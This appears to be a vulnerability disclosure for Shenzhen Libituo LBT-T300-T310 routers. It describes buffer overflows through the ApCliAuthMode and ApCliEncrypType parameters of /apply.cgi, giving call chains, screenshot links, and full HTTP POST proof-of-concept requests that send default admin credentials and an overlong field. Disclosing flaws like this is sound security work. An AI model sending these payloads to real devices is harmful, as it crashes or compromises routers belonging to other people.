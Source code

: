 ﻿# LBT-T310 Buffer Overflow
**Vulnerability description**
Shenzhen Libituo Technology Co., Ltd LBT-T300-T310 v2.2.2.6 was discovered to contain a buffer overflow via multiple  parameters at /apply.cgi.

## 1.ApCliAuthMode

### Vulnerability analysis
Due to the lack of data length restrictions of the ApCliAuthMode parameter, a buffer overflow vulnerability is created.

function call chain

Main()->sub_40BEC8()->start_single_service()->start_workmode()->start_lan()->start_wlan()->config_wlan()->generate_conf()->generate_conf_router()->updateCurAPlist()->makeCurRemoteApList ().
![在这里插入图片描述](https://img-blog.csdnimg.cn/e5860fcd7934499a8682a15e826b797e.png)

![在这里插入图片描述](https://img-blog.csdnimg.cn/4610d34c5a3e4a33ac5f636999476fe0.png)
![在这里插入图片描述](https://img-blog.csdnimg.cn/183c41b8e5b548d6bbacd5ca9f1b3554.png)
![在这里插入图片描述](https://img-blog.csdnimg.cn/def3469bfe73490685f78cf760c10297.png)
![在这里插入图片描述](https://img-blog.csdnimg.cn/a8ba62a4e5544940b2549fa8e6b1bd7a.png)
![在这里插入图片描述](https://img-blog.csdnimg.cn/124334394a244e4fb743a02b39bc38f0.png)
![在这里插入图片描述](https://img-blog.csdnimg.cn/5be9ceedeb1147aa845856fded4628a9.png)
![在这里插入图片描述](https://img-blog.csdnimg.cn/b840a93b51b6481ab3253a9ebd8bf232.png)
![在这里插入图片描述](https://img-blog.csdnimg.cn/b589d5287c0e489c8e28b863269a9eaf.png)
![在这里插入图片描述](https://img-blog.csdnimg.cn/4e033574277f4196a07307376d75f9a6.png)
![在这里插入图片描述](https://img-blog.csdnimg.cn/79fb883d8bd14b2396224c17171e1208.png)


> Payload

```html
POST /apply.cgi HTTP/1.1
Host: 192.168.10.1
Content-Length: 697
Cache-Control: max-age=0
Authorization: Basic YWRtaW46YWRtaW4=
Upgrade-Insecure-Requests: 1
Origin: http://192.168.10.1
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/118.0.0.0 Safari/537.36 Edg/118.0.2088.61
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://192.168.10.1/apclient_scan.asp
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
Connection: close

submit_button=apclient_scan&change_action=&wan_proto=9&action=Apply&wan_dns_enable=1&ApCliEnable=1&ApCliBssid=&ApCliChannel=6&ApClientBridgeEnable=1&wr_ApClientBridgeEnable=on&ApCliSsid=Remote_AP_SSID&ApCliAuthMode=OPENAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA&ApCliEncrypType=NONE&ApCli_wl_wep_len=0&ApCliDefaultKeyID=1&ApCliKey1Type=0&ApCliKey1Str=**********&ApCliKey2Type=0&ApCliKey2Str=**********&ApCliKey3Type=0&ApCliKey3Str=**********&ApCliKey4Type=0&ApCliKey4Str=**********&ApCliWPAEncrypType=TKIP&ApCliWPAPSK=12345678

```

## 2.ApCliEncrypType
### Vulnerability analysis
Due to the lack of data length restrictions of the ApCliEncrypType parameter, a buffer overflow vulnerability is created.

function call chain

Main()->sub_40BEC8()->start_single_service()->start_workmode()->start_lan()->start_wlan()->config_wlan()->generate_conf()->generate_conf_router()->updateCurAPlist()->makeCurRemoteApList ().
![在这里插入图片描述](https://img-blog.csdnimg.cn/8316e2625c1b41d3a8dee38af221a239.png

![在这里插入图片描述](https://img-blog.csdnimg.cn/9b3fc42eb40440bf94d969296e821661.jpeg)
![在这里插入图片描述](https://img-blog.csdnimg.cn/4610d34c5a3e4a33ac5f636999476fe0.png)
![在这里插入图片描述](https://img-blog.csdnimg.cn/183c41b8e5b548d6bbacd5ca9f1b3554.png)
![在这里插入图片描述](https://img-blog.csdnimg.cn/def3469bfe73490685f78cf760c10297.png)
![在这里插入图片描述](https://img-blog.csdnimg.cn/a8ba62a4e5544940b2549fa8e6b1bd7a.png)
![在这里插入图片描述](https://img-blog.csdnimg.cn/124334394a244e4fb743a02b39bc38f0.png)
![在这里插入图片描述](https://img-blog.csdnimg.cn/5be9ceedeb1147aa845856fded4628a9.png)
![在这里插入图片描述](https://img-blog.csdnimg.cn/b840a93b51b6481ab3253a9ebd8bf232.png)
![在这里插入图片描述](https://img-blog.csdnimg.cn/b589d5287c0e489c8e28b863269a9eaf.png)
![在这里插入图片描述](https://img-blog.csdnimg.cn/4e033574277f4196a07307376d75f9a6.png)
![在这里插入图片描述](https://img-blog.csdnimg.cn/79fb883d8bd14b2396224c17171e1208.png)


> Payload

```html
POST /apply.cgi HTTP/1.1
Host: 192.168.10.1
Content-Length: 697
Cache-Control: max-age=0
Authorization: Basic YWRtaW46YWRtaW4=
Upgrade-Insecure-Requests: 1
Origin: http://192.168.10.1
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/118.0.0.0 Safari/537.36 Edg/118.0.2088.61
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://192.168.10.1/apclient_scan.asp
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
Connection: close

submit_button=apclient_scan&change_action=&wan_proto=9&action=Apply&wan_dns_enable=1&ApCliEnable=1&ApCliBssid=&ApCliChannel=6&ApClientBridgeEnable=1&wr_ApClientBridgeEnable=on&ApCliSsid=Remote_AP_SSID&ApCliAuthMode=OPEN&ApCliEncrypType=NONEAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA&ApCli_wl_wep_len=0&ApCliDefaultKeyID=1&ApCliKey1Type=0&ApCliKey1Str=**********&ApCliKey2Type=0&ApCliKey2Str=**********&ApCliKey3Type=0&ApCliKey3Str=**********&ApCliKey4Type=0&ApCliKey4Str=**********&ApCliWPAEncrypType=TKIP&ApCliWPAPSK=12345678

```

